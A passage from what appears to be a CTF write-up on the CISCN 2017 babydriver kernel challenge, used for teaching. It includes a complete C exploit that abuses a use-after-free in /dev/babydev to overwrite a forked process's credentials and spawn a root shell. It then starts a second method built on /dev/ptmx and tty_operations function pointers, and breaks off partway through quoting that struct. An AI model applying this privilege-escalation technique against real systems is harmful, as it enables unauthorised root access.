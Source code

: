 ```c
#include <stdint.h>
typedef unsigned int uint;
void UAF()
{
    int f1 = open("/dev/babydev",2);
    int f2 = open("/dev/babydev",2);
    ioctl(f2,0x10001,0xa8); 
    close(f2);
    if(!fork())
    {   
        char buf[0x100]={0};
        write(f1,buf,28);
        system("/bin/sh");
    }
    wait(NULL);
}
int main()
{
    UAF();
}
```

# 0x04 Solution II 
This is a more general and useful solution, for kernel UAF pwn, `/dev/ptmx` is a good candidate to exploit because the there is a cool element in `tty_stuct` named `const struct tty_operations *ops;`. You can find the souce code of `tty_struct` at this [link][4] and `tty_operations` at this [link][5]. 

It's a struct about the function points.
```c
struct tty_operations {
	struct tty_struct * (*lookup)(struct tty_driver *driver,
			struct file *filp, int idx);
	int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
	void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
	int  (*open)(struct tty_struct * tty, struct file * filp);
	void (*close)(struct tty_struct * tty, struct file * filp);
	void (*shutdown)(struct tty_struct *tty);
	void (*cleanup)(struct tty_struct *tty);
	int  (*write)(struct tty_struct * tty,
		      const unsigned char *buf, int count);
	int  (*put_char)(struct tty_struct *tty, unsigned char ch);
	void (*flush_chars)(struct tty_struct *tty);
	int  (*write_room)(struct tty_struct *tty);
	int  (*chars_in_buffer)(struct tty_struct *tty);
	int  (*ioctl)(struct tty_struct *tty,
		    unsigned int cmd, unsigned long arg);
	long (*compat_ioctl)(struct tty_struct *tty,
			     unsigned int cmd, unsigned long arg);
	void (*set_termios)(struct tty_struct *tty, struct ktermios * old);
	void (*throttle)(struct tty_struct * tty);
	void (*unthrottle)(struct tty_struct * tty);
	void (*stop)(struct tty_struct *tty);
	void (*start)(struct tty_struct *tty);
	void (*hangup)(struct tty_struct *tty);
	int (*break_ctl)(struct tty_struct *tty, int state);
	void (*flush_buffer)(struct tty_struct *tty);
	void (*set_ldisc)(struct tty_struct *tty);
	void (*wait_until_sent)(struct tty_struct *tty, int timeout);
	void (*send_xchar)(struct tty_struct *tty, char ch);
	int (*tiocmget)(struct tty_struct *tty);
	int (*tiocmset)(struct tty_struct *tty,
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment
[3]: https://github.com/n132/attachment/tree/main/CISCN_2017
[4]: https://code.woboq.org/linux/linux/include/linux/tty.h.html#tty_struct
[5]: https://code.woboq.org/linux/linux/include/linux/tty_driver.h.html#tty_operations